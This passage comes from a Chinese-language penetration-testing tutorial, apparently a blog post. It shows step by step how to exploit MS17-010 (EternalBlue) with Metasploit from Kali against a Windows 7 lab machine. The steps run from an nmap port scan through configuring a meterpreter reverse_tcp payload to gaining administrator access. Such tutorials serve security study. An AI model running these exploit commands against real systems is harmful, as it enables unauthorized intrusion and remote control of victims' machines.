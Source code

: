 ![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROaxpomIuWfznOsB65vxh01Vr1ibqIxSaibZ9sDDsSA4DPT46DZLA4HSeuzvCdicHUg9rqLZhAK6yuFg/640?wx_fmt=png)

2.Kali 利用 MS17-010 反弹 Shell
---------------------------

第一步，扫描靶机是否开启 445 端口。

*   nmap -sS 192.168.44.147
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROaxpomIuWfznOsB65vxh01ENvYUZE58WuKsUJzqqFuE2BTKaYHmUJnYJKh9sFpTsKlTAQvibMNdeA/640?wx_fmt=png)

第二步，打开 msfconsole 并查询 MS17-010 漏洞模块。  
这里有各种 MS17-010 漏洞版本，我们根据目标系统选择编号为 3 的版本。推荐读者看看 NSA 泄露的方程式工具包，其中永恒之蓝（eternalblue）就是著名的漏洞。

*   msfconsole
    
*   search ms17-010
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROaxpomIuWfznOsB65vxh01dPOz4WbyHuSHFCNFu0GsYKib4ZVzIe5qMibwTReMic2FZb9PPP3J7btMQ/640?wx_fmt=png)

第三步，利用永恒之蓝漏洞并设置参数。

*   use exploit/windows/smb/
    
    ms17_010_eternalblue
    
    利用永恒之蓝漏洞
    
*   set payload windows/x64/
    
    meterpreter/reverse_tcp
    
    设置 payload
    
*   set LHOST 192.168.44.138
    
    设置本机 IP 地址
    
*   set RHOSTS 192.168.44.147
    
    设置受害主机 IP
    
*   set RPORT 445
    
    设置端口 445，注意该端口共享功能是高危漏洞端口，包括之前分享的 139、3389 等
    
*   exploit
    
    利用漏洞
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROaxpomIuWfznOsB65vxh01pZj58EczCwmMC64I4WcC3w3VnN8BTp7cwRchmWQTMUhfjD8I5a5dBg/640?wx_fmt=png)

第四步，成功获取 Win7 系统管理员权限。

*   getuid  
    返回系统管理员权限
    
*   pwd、ls  
    查看当前路径及目录
    